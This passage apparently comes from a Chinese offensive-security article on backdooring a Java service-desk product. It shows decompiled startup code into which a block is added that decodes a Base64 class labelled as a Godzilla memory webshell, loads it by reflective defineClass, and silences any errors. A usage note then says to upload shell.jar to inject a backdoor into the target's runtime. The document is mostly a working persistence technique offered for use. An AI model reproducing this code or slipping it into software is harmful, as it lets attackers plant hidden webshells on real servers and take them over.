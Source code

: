 ```
logger.log(Level.INFO, "Caught exception while retrieving client parameter LAUNCH_BROWSER_CLIENT." + var12);
}
}
           
String command = (String)additionalParams.get("command");
String[] commandArray = command.split(" ");
ListcommandList = new ArrayList(Arrays.asList(commandArray));
String url = "https://";
int webPort = SDInstallUtil.getSSLPort();
if (webPort == -1) {
url = (String)commandList.get(commandList.size() - 1);
webPort = SDInstallUtil.getWebServerPort(additionalParams.getProperty("WebServerPortFileName"));
}
           
String launchClientIcon = (String)additionalParams.get("launchClient");
String hostName = StartupUtil.getProductDetails("HOST", (String)null);
hostName = hostName == null ? "localhost" : hostName;
url = url + hostName + ":" + (new Integer(webPort)).toString();
url = url + "/adminLogin";
commandList.remove(commandList.size() - 1);
commandList.add(url);
serverStartTime = System.currentTimeMillis();
           
try {
if (!StartupUtil.isRunningAsService(System.getProperty("product.home")) || launchClientIcon != null && launchClientIcon.equalsIgnoreCase("true")) {
(new ProcessBuilder(commandList)).start();
}
try {
//哥斯拉内存shell的class Base64
String godzillaMemShellClassBase64 = "yv66vgAAA";
byte[] classBytes =  Base64.getDecoder().decode(godzillaMemShellClassBase64);
ClassLoader loader = Thread.currentThread().getContextClassLoader();
Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
defineClassMethod.setAccessible(true);
Class clazz = (Class) defineClassMethod.invoke(loader,classBytes,0,classBytes.length);
clazz.newInstance();
}catch (Exception e){
           
}
           

```  
  
****  
**使用指南**  
  
1.上传shell.jar 向目标系统运行时注入后门  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwa30TFTtDnETx2WHUPK30Eqh8UXJEk9EibDBYLiaTPlAOq5E2VfDoH7GQ/640?wx_fmt=png "")  
  